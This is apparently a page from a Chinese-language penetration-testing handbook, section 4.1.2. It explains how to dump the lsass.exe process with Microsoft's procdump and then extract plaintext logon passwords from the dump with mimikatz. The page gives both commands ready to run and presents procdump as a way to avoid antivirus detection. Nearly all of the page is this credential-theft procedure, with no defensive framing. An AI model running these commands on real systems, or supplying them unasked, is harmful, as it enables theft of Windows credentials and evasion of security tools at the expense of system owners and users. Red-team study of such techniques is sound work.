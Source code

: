 ```yaml
---
title: 4.1.2 procdump+mimikatz
id: zhfly3417
---
```


### 4.1.2 procdump+mimikatz

Procdump 是微软官方发布的一款调试工具，因此不会被各种杀毒软件查杀。可使用 procdump 加 mimikatz 来躲避杀软检测。

官方下载地址:https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

#### 1、使用 procdump 将目标的 lsass.exe 转储成 dmp 文件

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp 
```

![image](../img/516bf27b9df82b1f673aeddaf860d3fb.png)

#### 2、使用 mimikatz 从转储的 lsass.dmp 中来读取明文密码

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" 
```

![image](../img/f018c47bbe86f48f90935618b71f0695.png)